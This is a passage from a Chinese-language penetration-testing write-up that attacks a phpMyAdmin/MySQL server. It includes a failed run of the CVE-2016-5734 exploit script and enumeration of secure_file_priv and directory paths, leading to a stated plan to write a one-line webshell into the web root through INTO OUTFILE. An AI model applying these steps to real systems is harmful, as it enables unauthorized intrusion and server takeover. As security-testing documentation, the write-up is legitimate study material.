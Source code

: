 回到主页，未出意外地登录进去了。

### CVE-2016-5734

中间还有一个小插曲。找到一个 phpMyAdmin 需身份验证的远程代码执行漏洞。

[CVE-2016-5734_POC](https://www.exploit-db.com/exploits/40185)

```shell
$ ./cve-2016-5734.py -c 'system(ipconfig);' -u root -p toor <http://192.168.5.99:999/>
ERROR:
#1286 - Unknown storage engine 'InnoDB'
```

但是很不幸，MySQL 中未开启 InnoDB 引擎。而开启方法只能是编辑系统中 MySQL 的配置文件 my.cnf。

```shell
MySQL [(none)]> show variables like "%innodb%";
+-----------------------+----------+
| Variable_name         | Value    |
+-----------------------+----------+
| have_innodb           | DISABLED |
| ignore_builtin_innodb | OFF      |
+-----------------------+----------+
2 rows in set (0.002 sec)
```

CVE-2016-5734 利用失败。。。

### 寻绝对路径，外写木马

经测试发现，MySQL 中，**into outfile** 未被禁用，而且这里也不存在 WAF 拦截；root 用户拥有**向外写文件**的权限。

```shell
MySQL [(none)]> SELECT @@global.secure_file_priv;
+---------------------------+
| @@global.secure_file_priv |
+---------------------------+
|                           |
+---------------------------+
1 row in set (0.001 sec)
```

再查询未使用 **secure-file-priv** 参数；这说明不仅能向外写文件，而且想往哪里写就往哪儿写。

所以，只需找到 Web 物理路径；使用 SQL 语句向 Web 目录写个**一句话木马**，就能拿到服务器的 **shell**。

首先先判断当前 MySQL 的数据、插件等目录：

```shell
MySQL [(none)]> show variables like "%dir%";
+-----------------------------------------+------------------------------------------+
| Variable_name                           | Value                                    |
+-----------------------------------------+------------------------------------------+
| basedir                                 | D:/HwsApacheMaster/mysql/                |
| binlog_direct_non_transactional_updates | OFF                                      |
| character_sets_dir                      | D:\HwsApacheMaster\mysql\share\charsets\ |
| datadir                                 | D:\HwsApacheMaster\mysql\Data\           |
| lc_messages_dir                         | D:\HwsApacheMaster\mysql\share\          |
| plugin_dir                              | D:\HwsApacheMaster\mysql\lib/plugin      |
| slave_load_tmpdir                       | C:\Users\MYSQL_~1.005\AppData\Local\Temp |
| tmpdir                                  | C:\Users\MYSQL_~1.005\AppData\Local\Temp |
+-----------------------------------------+------------------------------------------+
8 rows in set (0.002 sec)
```
